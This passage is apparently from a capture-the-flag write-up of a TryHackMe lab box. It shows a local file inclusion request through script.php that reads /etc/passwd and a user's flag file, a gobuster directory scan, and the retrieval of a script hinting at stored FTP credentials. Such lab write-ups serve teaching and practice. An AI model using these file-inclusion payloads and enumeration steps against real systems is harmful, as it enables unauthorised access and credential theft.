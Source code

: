 ```console
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```
2. Tried to get user.txt in /home/dale/user.txt (username we found in robots.txt)
```console
❯ curl http://dev.team.thm/script.php\?page\=/home/dale/user.txt
THM{6Y0TXHz7c2d}
```
3. Tried to get reverse shell from lfi but not possible.

## team.thm
Ran gobuster on earlier found directory `/scripts` found a file name script.txt
```console
❯ gobuster dir --url http://team.thm/scripts   -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,js,txt | tee gobuster1.log
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://team.thm/scripts
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,js,txt
[+] Timeout:                 10s
===============================================================
2022/10/11 10:13:36 Starting gobuster in directory enumeration mode
===============================================================
/script.txt           (Status: 200) [Size: 597]
```

In `script.txt` found username and password but it was REDACTED by the owner. But it also has mentioned that the username and password in the .old file.
```console
❯ curl http://team.thm/scripts/script.txt
#!/bin/bash
read -p "Enter Username: " REDACTED
read -sp "Enter Username Password: " REDACTED
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit

# Updated version of the script
# Note to self had to change the extension of the old "script" in this folder, as it has creds in
```
